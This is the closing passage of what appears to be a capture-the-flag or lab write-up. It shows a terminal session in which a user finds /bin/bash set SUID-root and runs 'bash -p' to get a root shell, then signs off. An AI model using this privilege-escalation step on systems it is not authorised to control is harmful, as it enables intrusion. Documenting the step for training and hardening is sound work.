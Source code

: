 ```shell
sau@pc:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
sau@pc:~$ bash -p
bash-5.0# whoami
root
```

That's all, thank you for reading!
